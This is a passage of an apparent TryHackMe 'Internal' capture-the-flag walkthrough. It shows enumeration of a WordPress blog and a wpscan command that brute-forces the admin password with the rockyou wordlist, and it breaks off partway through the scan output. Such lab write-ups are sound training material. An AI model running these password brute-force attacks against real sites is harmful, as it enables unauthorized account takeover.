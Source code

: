 ### After some enumeration we find a post showing that the user is admin


![img1](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/internal/images/1.png)


### And after enumerating more we find the login wp url and the bottom of the page and also we find the login directory on our second gobuster scan
```
http://internal.thm/blog/wp-admin
```

### So lets try to bruteforce by using wpscan
```
wpscan --url http://internal.thm/blog --usernames admin --passwords /home/sig/Downloads/rockyou.txt 
```
### Here are the scan results 
```
wpscan --url http://internal.thm/blog --usernames admin --passwords /home/sig/Downloads/rockyou.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.18
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://internal.thm/blog/ [10.10.113.87]
[+] Started: Fri Nov 19 18:13:33 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://internal.thm/blog/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
```